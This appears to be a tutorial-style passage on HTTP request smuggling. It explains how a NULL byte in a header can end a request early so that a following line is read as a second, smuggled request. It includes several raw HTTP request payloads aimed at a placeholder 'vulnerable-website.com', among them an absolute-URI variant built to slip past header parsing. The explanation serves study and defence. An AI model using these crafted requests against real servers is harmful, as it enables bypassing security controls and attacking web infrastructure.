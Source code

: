 Using a NULL byte character in a header causes the request to be rejected and premature end of query. If after the first error the pipeline does not close, the next line will be interpreted as the next request in the pipeline.

A valid pipeline might look something like:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
X-Foo: Bar

GET /index.html?bar=1 HTTP/1.1
Host: vulnerable-website.com
...
```

Generates 2 error `400 Bad Request`, because the second query is starting with `X-Foo: Bar` and that is an invalid first query line.

An invalid pipeline might look something like (as there is no `\r\\n` between the 2 queries):

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
GET /index.html?bar=1 HTTP/1.1
Host: vulnerable-website.com
...
```

It generates one error `400 Bad Request` and one `200 OK` response. Second query is taken as a valid.

But line `GET /index.html?bar=1 HTTP/1.1` is a bad header and most agent will reject early the fake pipeline as a bad query, because

```
GET /index.html?bar=1 HTTP/1.1
    !=
<HEADER-NAME-NO-SPACE>[:][SP]<HEADER-VALUE>[CR][LF]
```

The first line of the query has the following syntax:

```
<METHOD>[SP]<LOCATION>[SP]HTTP/[M].[m][CR][LF]
<METHOD>[SP]<http[s]://LOCATION>[SP]HTTP/[M].[m][CR][LF]
```

`LOCATION` may be used to inject the special `[:]` that is required in an header line, especially on the query string part, but this would inject a lot of bad characters in the `HEADER-NAME-NO-SPACE` part, like '/' or '?'.
 
But in the absolute uri syntax the special `[:]` comes with the line, and the bad character for an `HEADER-NAME-NO-SPACE` will only be a space. This will also fix the potential presence of the double `Host` header (absolute uri does replace the `Host` header).

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
GET http://vulnerable-website.com/index.html?bar=1 HTTP/1.1

```
